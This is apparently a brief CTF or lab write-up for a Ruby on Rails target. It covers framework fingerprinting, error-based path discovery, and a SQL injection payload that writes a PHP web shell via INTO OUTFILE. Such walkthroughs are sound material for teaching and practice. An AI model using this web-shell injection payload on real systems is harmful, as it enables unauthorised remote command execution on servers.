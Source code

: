 Using Wappalyzer, we see Rub on Rails in Web frameworks.
Reviewing the url, we manipulate the path to spawn an error.
http://$TARGET:33033/users/
http://$TARGET:33033/x/
We now have a list of Paths for us to try.
Visting /slug, we get a text box.
```
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -'
```
